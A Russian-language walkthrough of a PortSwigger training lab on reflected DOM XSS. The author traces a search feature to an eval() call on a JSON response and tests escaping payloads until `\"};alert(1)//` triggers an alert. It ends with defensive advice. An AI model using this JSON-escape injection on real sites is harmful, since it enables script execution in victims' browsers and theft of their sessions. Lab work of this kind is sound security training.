


лаба https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-dom-xss-reflected
# Отраженный DOM XSS
#### DOM XSS combined with reflected and stored data


веб-сайты часто отражают параметры URL в ответе HTML с сервера. Это обычно связано с нормальным XSS, но это также может привести к отраженным уязвимостям DOM XSS

задание = создайте инъекцию, которая вызывает `alert()`

------

есть поиск постов на сайте
вбил в поиск  666
вот отраженный ответ
```html
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3109

<!DOCTYPE html>
<html>
<!--LAB_HEAD_START-->
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labsBlog.css rel=stylesheet>
        <title>Reflected DOM XSS</title>
    </head>
<!--LAB_HEAD_END-->
    <body>
        <script src="/resources/labheader/js/labHeader.js"></script>
        <!--LAB_HEADER_START-->
        <div id="academyLabHeader">
            <section class='academyLabBanner'>
                <div class=container>
                    <div class=logo></div>
                        <div class=title-container>
                            <h2>Reflected DOM XSS</h2>
                            <a class=link-back href='https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-dom-xss-reflected'>
                                Back&nbsp;to&nbsp;lab&nbsp;description&nbsp;
                                <svg version=1.1 id=Layer_1 xmlns='http://www.w3.org/2000/svg' xmlns:xlink='http://www.w3.org/1999/xlink' x=0px y=0px viewBox='0 0 28 30' enable-background='new 0 0 28 30' xml:space=preserve title=back-arrow>
                                    <g>
                                        <polygon points='1.4,0 0,1.2 12.6,15 0,28.8 1.4,30 15.1,15'></polygon>
                                        <polygon points='14.3,0 12.9,1.2 25.6,15 12.9,28.8 14.3,30 28,15'></polygon>
                                    </g>
                                </svg>
                            </a>
                        </div>
                        <div class='widgetcontainer-lab-status is-notsolved'>
                            <span>LAB</span>
                            <p>Not solved</p>
                            <span class=lab-status-icon></span>
                        </div>
                    </div>
                </div>
            </section>
        </div>
        <!--LAB_HEADER_END-->
        <div theme="blog">
            <section class="maincontainer">
                <div class="container is-page">
                    <header class="navigation-header">
                        <section class="top-links">
                            <a href=/>Home</a><p>|</p>
                        </section>
                    </header>
                    <header class="notification-header">
                    </header>
                    <script src='/resources/js/searchResults.js'></script>
                    <script>search('search-results')</script>
                    <section class="blog-header">
                    </section>
                    <section class=search>
                        <form action=/ method=GET>
                            <input type=text placeholder='Search the blog...' name=search>
                            <button type=submit class=button>Search</button>
                        </form>
                    </section>
                    <section class="blog-list">
                    </section>
                </div>
            </section>
            <div class="footer-wrapper">
            </div>
        </div>
    </body>
</html>

```

в нем нет 666 цифр
но пейлоад отразился в URL и в тексте над поиском

`https://0a6c008b0436832a805b035200bd001b.web-security-academy.net/?search=666`




---------

также автоматически выполнился запрос еще один 
```http
GET /search-results?search=666 HTTP/2
Host: 0a6c008b0436832a805b035200bd001b.web-security-academy.net
Cookie: session=u1ycSDXmwPuEuXdDCo1zqrt45Pgm1CHS
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Sec-Ch-Ua-Mobile: ?0
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a6c008b0436832a805b035200bd001b.web-security-academy.net/?search=666
Accept-Encoding: gzip, deflate, br
Priority: u=1, i


```

и на него джсон ответ  в котором тоже есть мой пейлоад!!
```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 33

{"results":[],"searchTerm":"666"}
```


-------

приходит json с  results

а results как раз таки есть в коде HTML основной страницы!

вот тут 
```html

                   <script src='/resources/js/searchResults.js'></script>
                    <script>search('search-results')</script>
```

-------


то есть сюда кудатопарсится и подставляется {"results":[ ],"searchTerm":"666"} 

и как минимум подставляется в текст над поиском!!!

как вариант - закрыть скрипт  < /script> + пейлоад


`</script>`  нет алерта
`'</script>`  нет алерта
`')</script>`  нет алерта
`</script>')`  нет алерта

----

в скрипте с главной страницы есть путь /resources/js/searchResults.js
я этот путь похожий открывал в прошлой лабе случайно
`https://0a6c008b0436832a805b035200bd001b.web-security-academy.net/resources/js/searchResults.js`

я открыл по этому пути ссылку и там получил файл ()
```js
function search(path) {
    // Создаёт новый объект XMLHttpRequest для асинхронного запроса к серверу
    var xhr = new XMLHttpRequest();
    
    // Определяем функцию, которая сработает при изменении состояния запроса
    xhr.onreadystatechange = function() {
        // Проверяем что запрос завершён (readyState == 4) и успешен (status == 200)
        if (this.readyState == 4 && this.status == 200) {
            // ЕБУЧИЙ МОМЕНТ! eval выполняет JSON-ответ как код!
            // Сервер возвращает что-то типа {"searchTerm":"XSS","results":[...]}
            // и эта строка превращается в JavaScript-объект через eval
            eval('var searchResultsObj = ' + this.responseText);
            
            // Вызываем функцию отображения результатов с полученным объектом
            displaySearchResults(searchResultsObj);
        }
    };
    
    // Открываем GET-запрос по переданному пути + текущая строка запроса из URL
    // Например: /search-results?search=666
    xhr.open("GET", path + window.location.search);
    
    // Отправляем запрос
    xhr.send();

    // Функция отрисовки результатов поиска на странице
    function displaySearchResults(searchResultsObj) {
        // Находим элементы на странице для вставки результатов
        var blogHeader = document.getElementsByClassName("blog-header")[0];
        var blogList = document.getElementsByClassName("blog-list")[0];
        
        // Достаём из объекта поисковый запрос и массив результатов
        var searchTerm = searchResultsObj.searchTerm
        var searchResults = searchResultsObj.results

        // Создаём заголовок с количеством результатов и поисковым запросом
        var h1 = document.createElement("h1");
        h1.innerText = searchResults.length + " search results for '" + searchTerm + "'";
        blogHeader.appendChild(h1);
        
        // Добавляем разделительную линию
        var hr = document.createElement("hr");
        blogHeader.appendChild(hr)

        // Перебираем все найденные результаты
        for (var i = 0; i < searchResults.length; ++i)
        {
            var searchResult = searchResults[i];
            
            // Если у результата есть ID, создаём ссылку на пост
            if (searchResult.id) {
                var blogLink = document.createElement("a");
                blogLink.setAttribute("href", "/post?postId=" + searchResult.id);

                // Если есть картинка — добавляем её
                if (searchResult.headerImage) {
                    var headerImage = document.createElement("img");
                    headerImage.setAttribute("src", "/image/" + searchResult.headerImage);
                    blogLink.appendChild(headerImage);
                }

                blogList.appendChild(blogLink);
            }

            // Добавляем перенос строки (костыль на innerHTML)
            blogList.innerHTML += "<br/>";

            // Если есть заголовок — добавляем
            if (searchResult.title) {
                var title = document.createElement("h2");
                title.innerText = searchResult.title;
                blogList.appendChild(title);
            }

            // Если есть краткое описание — добавляем
            if (searchResult.summary) {
                var summary = document.createElement("p");
                summary.innerText = searchResult.summary;
                blogList.appendChild(summary);
            }

            // Если есть ID — добавляем кнопку "View post"
            if (searchResult.id) {
                var viewPostButton = document.createElement("a");
                viewPostButton.setAttribute("class", "button is-small");
                viewPostButton.setAttribute("href", "/post?postId=" + searchResult.id);
                viewPostButton.innerText = "View post";
            }
        }

        // Добавляем внизу ссылку "Back to Blog"
        var linkback = document.createElement("div");
        linkback.setAttribute("class", "is-linkback");
        var backToBlog = document.createElement("a");
        backToBlog.setAttribute("href", "/");
        backToBlog.innerText = "Back to Blog";
        linkback.appendChild(backToBlog);
        blogList.appendChild(linkback);
    }
}
```


в этом файле кажется - код функции search обработки полученного json 

в этой строке 
## eval('var searchResultsObj = ' + this.responseText);
происходит выполнение функции eval которая выполняет строки как код

alert(1) нет 
`` нет        ответ`` "searchTerm":""``
`"` нет      ответ `"\""`   🟣  СЕРВЕР ЭКРАНИРУЕТ КАВЫЧКУ
`'` нет      ответ  `"'"`

можно пробовать экранировать их экранирование тоже слешем
`\"`  вывод не отобразился графически на странице
а вот ответ 
```json

{"results":[],"searchTerm":"\\""}
```
но алерт не выполнился
может нужно кодировать пробелы?


`\"`  ответ `"searchTerm":"\\""}`

и нужно бы закрыть скобу json
`\"}{`
ответ
```json
{"results":[],"searchTerm":"\\"}{"}
```


`\"}{\"`
ответ
```json
{"results":[],"searchTerm":"\\"}{\\""}
```

`\"}{\"//`
ответ
```json
{"results":[],"searchTerm":"\\"}{\\"//"}
```


`\"}alert(1){\"//`
ответ
```json
{"results":[],"searchTerm":"\\"}alert(1){\\"//"}
```

сервер всегда экранирует мои слеши и кавычки своими слешами


`\"}//`
ответ
```json
{"results":[],"searchTerm":"\\"}//"}
```
ну вроде закрыл все и мой тег вообще теперь отдельно от json - алерта нет

`\"}alert(1)//`
ответ
```json
{"results":[],"searchTerm":"\\"}alert(1)//"}
```
алерта нет

------

## аллилуяяяя!!


`\"};alert(1)//`
ответ
```json
{"results":[],"searchTerm":"\\"};alert(1)//"}
```
АЛЕРТ ПОЯВИЛСЯ!!!!!!
я снова забыл про разделители строк!!!




удалось выйти за пределы json
это был лишь вопрос времени
я конечно шел просто напролом... нужно было остановиться и лучше подумать!

---------


## как защититься от отраженного DOM XSS через eval и JSON

никогда не использовать `eval()` с данными, полученными от сервера — это главная ошибка

заменить `eval()` на безопасный `JSON.parse()` для обработки JSON-данных 
экранировать все спецсимволы перед вставкой в HTML, включая обратную косую черту `\`

проверять входные данные на сервере и не доверять тому что приходит от клиента

использовать Content Security Policy с директивой `script-src` и `require-trusted-types-for` для блокировки опасных конструкций 

применять современные фреймворки которые автоматически экранируют вывод (React, Angular)

устанавливать HttpOnly и Secure флаги для кук чтобы их нельзя было украсть через XSS 

использовать библиотеки санитизации типа DOMPurify если нужно вставлять пользовательский HTML 